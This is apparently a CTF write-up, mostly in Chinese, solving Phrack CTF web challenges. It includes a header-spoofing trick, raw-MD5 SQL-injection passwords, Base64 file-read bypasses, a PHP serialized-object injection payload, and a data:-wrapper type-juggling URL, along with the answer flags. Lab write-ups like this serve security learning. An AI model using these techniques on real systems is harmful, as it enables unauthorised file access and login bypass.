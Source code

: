 # Phrack CTF WEB

1. PORT51
    > Please use port 51 to visit this site.

    - curl

2. LOCALHOST
    - `X-Forwarder-For: 127.0.0.1`

3. Login
    - password 129581926211651571912466741651878684928 or 1839431
    - `PCTF{R4w_md5_is_d4ng3rous}`
    - [SQL injection with raw MD5 hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
    - [SQL injection with raw MD5 hashes ](http://www.joychou.org/index.php/web/SQL-injection-with-raw-MD5-hashes.html?utm_source=tuicool)

4. 神盾局的秘密
    > 这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

    - 题面源码很短：`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`
    - 发现参数`img`的值为`c2hpZWxkLmpwZw==`，看起来好像是Base64的样子（根据曹小白的说法：1. 末尾有等号；2. 大小写混杂，解码后发现为`shield.jpg`，进一步验证想法。
    - 通过 `view-source:http://web.phrack.top:32779/showimg.php?img=c2hvd2ltZy5waHA=` 查看 `showimg.php` 源码：
        ```
        <?php
        	$f = $_GET['img'];
        	if (!empty($f)) {
        		$f = base64_decode($f);
        		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        		&& stripos($f,'pctf')===FALSE) {
        			readfile($f);
        		} else {
        			echo "File not found!";
        		}
        	}
        ?>
        ```
    - `showimg.php` 源码中规定了`img`参数的打开规则：
        - 不允许包含`..`, `/`, `\\`, `pctf` 等字符
        - 传入的参数需要经过Base64编码
    - 尝试通过 `view-source:http://web.phrack.top:32779/showimg.php?img=aW5kZXgucGhw` 查看 `index.php` ：
        ```
        <?php
        	require_once('shield.php');
        	$x = new Shield();
        	isset($_GET['class']) && $g = $_GET['class'];
        	if (!empty($g)) {
        		$x = unserialize($g);
        	}
        	echo $x->readfile();
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - 发现一个叫做`shield.php`的东西，`view-source:http://web.phrack.top:32779/showimg.php?img=c2hpZWxkLnBocA==` 得到：
        ```
        <?php
        	//flag is in pctf.php
        	class Shield {
        		public $file;
        		function __construct($filename = '') {
        			$this -> file = $filename;
        		}

        		function readfile() {
        			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
        			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
        				return @file_get_contents($this->file);
        			}
        		}
        	}
        ?>
        ```
    - 发现`//flag is in pctf.php`，简直开心，直接访问`view-source:http://web.phrack.top:32779/showimg.php?img=cGN0Zi5waHA=`获取flag，然而`File not found!`。
    - 返回去研究`index.php`源码，发现还有个名为`class`的参数未用。由源码，`class`应为经过序列化的一个名为`Shield`的类，定义见`shield.php`。
    - 通过以下代码生成需要传入`class`的值：
        ```
        <?php
        class Shield {
            public $file;
            function __construct($filename = 'pctf.php') {
                $this -> file = $filename;
            }

            function readfile() {
                if (!empty($this->file) && stripos($this->file,'..')===FALSE
                && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                    return @file_get_contents($this->file);
                }
            }
        }
        $x = new Shield();
        // $g = "O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}";
        $g = serialize($x);
        echo str_replace("\"", "%22", $g);  //强序列化后的内容转换为url中可传入的参数
        // echo $g;
        ?>
        ```
    - 得到页面源代码：
        ```
        <?php
        	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
        	//Fake flag:
        	echo "FLAG: PCTF{I_4m_not_fl4g}"
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - `PCTF{W3lcome_To_Shi3ld_secret_Ar3a}`

5. IN A Mess

    > 连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

    - 页面内容`work harder!harder!harder!`
    - 查看源代码，发现只有一行：`<!--index.phps-->work harder!harder!harder!`。 **仔细** 观察，发现`index.phps`是什么鬼东西，遂打开看看。
    - 得到代码如下：
        ```
        if(!$_GET['id'])
        {
            header('Location: index.php?id=1');
            exit();
        }
        $id=$_GET['id'];
        $a=$_GET['a'];
        $b=$_GET['b'];
        if(stripos($a,'.'))
        {
            echo 'Hahahahahaha';
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="1112 is a nice lab!" and
            $id==0 and
            strlen($b)>5 and
            eregi("111".substr($b,0,1),"1114") and
            substr($b,0,1)!=4)
        {
            require("flag.txt");
        }
        else
        {
            print "work harder!harder!harder!";
        }
        ```
    - 通过代码可以得知，如果我们想要得到`flag.txt`则需要以下满足五个条件：
        1. `$data=="1112 is a nice lab!"`，其中`$data = @file_get_contents($a,'r')`
        2. `$id==0`
        3. `strlen($b)>5`
        4. `eregi("111".substr($b,0,1),"1114")`
        5. `substr($b,0,1)!=4`
    - 所以构造出可以获得flag的连接：`index.php?id=0a&a=data:text/plain,1112%20is%20a%20nice%20lab!&b=.whaterever`，获得
    - [PHP中的header函数](http://www.cnblogs.com/fengzheng126/archive/2012/04/21/2461475.html)
    -

6. RE?
    - so文件
